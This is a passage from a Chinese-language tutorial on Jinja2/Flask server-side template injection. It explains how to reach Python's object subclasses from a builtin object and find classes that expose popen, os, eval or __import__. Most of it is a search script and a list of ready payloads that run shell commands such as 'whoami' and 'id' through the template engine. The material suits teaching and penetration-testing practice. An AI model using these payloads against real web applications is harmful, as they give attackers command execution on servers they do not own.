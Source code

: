 ##### 注入思路
随便找一个内置类对象用__class__拿到他所对应的类
用__bases__拿到基类（<class 'object'>）
用__subclasses__()拿到子类列表
在子类列表中直接寻找可以利用的类getshell
##### 接下来只要找到能够利用的类（方法、函数）就好了：
可以使用如下脚本帮助查找方法：
```python
from flask import Flask,request
from jinja2 import Template
search = 'eval'   
num = -1
for i in ().__class__.__bases__[0].__subclasses__():
    num += 1
    try:
        if search in i.__init__.__globals__.keys():
            print(i, num)
    except:
        pass
```
#### 3.2.2 python2、python3通用payload
因为每个环境使用的python库不同 所以类的排序有差异
直接使用popen（python2不行）
os._wrap_close类里有popen。

```python
"".__class__.__bases__[0].__subclasses__()[128].__init__.__globals__['popen']('whoami').read()
"".__class__.__bases__[0].__subclasses__()[128].__init__.__globals__.popen('whoami').read()
```

使用os下的popen
可以从含有os的基类入手，比如说linecache。

```python
"".__class__.__bases__[0].__subclasses__()[250].__init__.__globals__['os'].popen('whoami').read()
```

使用__import__下的os（python2不行）
可以使用__import__的os。

```python
"".__class__.__bases__[0].__subclasses__()[75].__init__.__globals__.__import__('os').popen('whoami').read()
```

__builtins__下的多个函数
__builtins__下有eval，__import__等的函数，可以利用此来执行命令。

```python
"".__class__.__bases__[0].__subclasses__()[250].__init__.__globals__['__builtins__']['eval']("__import__('os').popen('id').read()")
"".__class__.__bases__[0].__subclasses__()[250].__init__.__globals__.__builtins__.eval("__import__('os').popen('id').read()")
"".__class__.__bases__[0].__subclasses__()[250].__init__.__globals__.__builtins__.__import__('os').popen('id').read()
"".__class__.__bases__[0].__subclasses__()[250].__init__.__globals__['__builtins__']['__import__']('os').popen('id').read()
```
